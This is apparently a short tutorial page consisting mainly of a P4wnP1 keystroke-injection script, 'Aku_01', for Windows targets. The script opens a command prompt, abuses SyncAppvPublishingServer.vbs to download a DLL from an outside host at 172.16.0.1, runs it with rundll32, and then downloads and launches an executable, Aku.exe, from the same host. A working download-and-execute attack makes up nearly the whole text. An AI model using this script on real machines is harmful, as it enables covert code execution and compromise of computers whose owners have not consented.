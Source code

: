 *P4wnP1 HID Config: Aku_01*
```
layout('us'); // US keyboard layout
typingSpeed(1,0) // Wait 100ms between key strokes + an additional random value between 0ms and 150ms (natural)
waitLEDRepeat(NUM); // Wait till NUM LED of target changes frequently multiple times (doesn't work on OSX)
press("GUI r");
delay(2000);
type("cmd.exe\n");
delay(1000);
type("C:\\Windows\\System32\\SyncAppvPublishingServer.vbs \"Break; (New-Object System.Net.WebClient).DownloadFile('http://172.16.0.1/filez/PowerShdll.dll','C:\\temp\\PowerShdll.dll')\"\n");
delay(8500);
type("rundll32 C:\\temp\\PowerShdll.dll,main -i\n");
delay(7000);
type("\n")
type("$PSVersionTable.PSVersion\n");
delay(500);
type("\n")
delay(100);
type("(new-object System.Net.WebClient).DownloadFile('http://172.16.0.1/filez/Aku.exe','C:\\temp\\Aku.exe')\n")
delay(4000);
type("Start-Process C:\\temp\\Aku.exe\n")
```
<br>  
#### Update Default HID Script
![P4wnP1 HID 1](/images/jtekt/p4wnp1/1/HID_P4wnP1_Aku_01.png){:height="75%" width="75%"}

